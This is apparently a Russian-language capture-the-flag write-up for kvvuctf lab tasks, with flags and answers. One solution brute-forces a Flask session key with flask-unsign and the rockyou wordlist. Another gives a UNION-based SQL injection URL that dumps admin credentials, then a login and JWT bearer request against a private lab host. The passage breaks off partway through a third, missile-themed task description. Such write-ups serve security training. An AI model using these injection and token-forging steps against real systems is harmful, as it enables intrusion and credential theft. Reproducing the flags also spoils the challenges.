 #### Writeup

Для решения необходимо сбрутить ключ сессий по rockyou утилитой flask-unsign, после чего подписать свой токен и получить флаг.

**Flag** - `kvvuctf{w3ak_s3cr3t_k3y_1n_s3ss10n_n0w}`




### 2. Государственный контракт - 400

#### Платформа kvvuctf:

```
Описание

Нам удалось получить доступ к площадке государственных закупок не дружественного государства - http://10.64.x.100:3000/ *. Web-приложение позволяет просматривать объекты закупок с описанием и ценами. Разведка докладывает, что где-то в приложении можно посмотреть контракт (contract) на закупку .

*10.64.x.100:3000, где х - номер вашей команды.

Задание

Найти контракт на закупку и его номер.
```

#### Writeup

1. sql-injection. Получаем логин и пароль админа.
http://ip:3000/product/25%20UNION%20SELECT%20NULL,username,NULL,password%20from%20users

2. Логинимся, получаем jwt токен 
http://ip:3000/login
admin
fs3!m4mf3kf4

3. Авторизируемся используя jwt token
header: 
Authorization Bearer jwt_token

get http://ip:3000/contract


4. Получаем флаг.
Флагом является номер контракта на закупку. Флаг закодирован в base64.

**Flag** - `kvvu{it_!s_number_of_top_$ecret_contract_pwn}`


### 3. Ракетная атака - 500 

#### Платформа kvvuctf:

```
### Описание

Разведка доложила о том, что всё высшее руководство врага собралось в секретном пункте сбора. 
Адрес этого пункта не знают даже враги, так как координаты секретного центра передаются в случае эвакуации с объекта в случае его полного разрушения.
Нам удалось получить доступ к вражескому центру координации ракетных ударов. В приложении враг дает команды на атаку наших городов и отслеживает результаты атаки. Наши ракеты не достают до центра координации, однако были замечены прецеденты, когда враг ставил для целей не верные координаты и проводил атаки по своим войскам. Возможно мы сможем использовать это себе на пользу.

Вражеский центр координации - `http://10.64.x+1.100:4000/*`

`*10.64.x+1.100:4000`, где х - номер вашей команды.

```